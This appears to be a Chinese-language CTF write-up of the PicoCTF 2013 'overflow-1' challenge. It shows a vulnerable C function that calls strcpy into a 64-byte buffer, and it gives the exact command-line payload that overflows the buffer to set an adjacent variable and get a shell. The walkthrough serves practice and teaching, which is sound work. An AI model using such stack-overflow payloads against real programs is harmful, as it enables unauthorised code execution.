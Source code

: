 ```yaml
---
title: 2013PicoCTF overflow-1
date: 2019-04-18 23:38:22
categories: Pwn
---
```

# Write-Up

```
void vuln(int tmp, char *str) {
    int win = tmp;
    char buf[64];
    strcpy(buf, str);
    dump_stack((void **) buf, 23, (void **) &tmp);
    printf("win = %d\n", win);
    if (win == 1) {
        execl("/bin/sh", "sh", NULL);
    } else {
        printf("Sorry, you lose.\n");
    }
    exit(0);
}
```

可以看到，如果变量win是1，就可以getshell，打印出的栈中

![栈内容](1.png)

win紧接在strbuf后面，可以输入多一个覆盖win，从而改变win的值

>'a'*64+'\0x1'

就可以把 ```0x1``` 覆盖到栈中的win变量，从而修改win，getshell



但是 ```0x1``` 不是可见字符，就不能直接在键盘上敲入

这时候就得需要利用一些功能把字符传入

比如python就可以打印任意字符 
```
print('\x01')
```
就实现了输入一个 ```0x1``` 的内容

因为这里的输入是紧跟在执行程序时的参数，所以可利用linux中反引号或$的功能

>$( )中放的是命令，相当于` `，例如todaydate=$(date +%Y%m%d)意思是执行date命令，返回执行结果给变量todaydate，也可以写为todaydate=`date +%Y%m%d`；

因此执行文件时如下

>➜  overflow1 ./overflow1 $(python -c "print('a'*64+'\x01')")

即可getshell